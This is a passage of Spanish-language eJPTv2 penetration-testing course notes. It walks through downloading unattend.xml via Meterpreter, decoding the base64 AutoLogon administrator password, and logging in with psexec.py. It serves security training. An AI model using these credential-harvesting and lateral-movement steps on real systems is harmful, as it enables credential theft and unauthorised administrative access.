 Cuando los encontremos, podemos descargarlos con el siguiente comando:

```bash
meterpreter > download unattend.xml
```

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2098.png)

Hacia el final del fichero, podemos ver una etiqueta “**AutoLogon**”, que contiene contraseñas.

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%2099.png)

En este ejemplo, encontramos la de “administrator”, que está codificada en base64. Copiamos la contraseña y creamos un fichero de texto, donde la vamos a pegar. Vamos a utilizar una herramienta para descodificarla:

```bash
base64 -d password.txt
```

Nos devuelve la contraseña en texto plano.

![image.png](Curso%20EJPTv2%20194403fef4da80df82fada01929fa777/image%20100.png)

Ahora nos vamos a autenticar con **psexec**.

```bash
psexec.py Administrator@<IP_target>
```
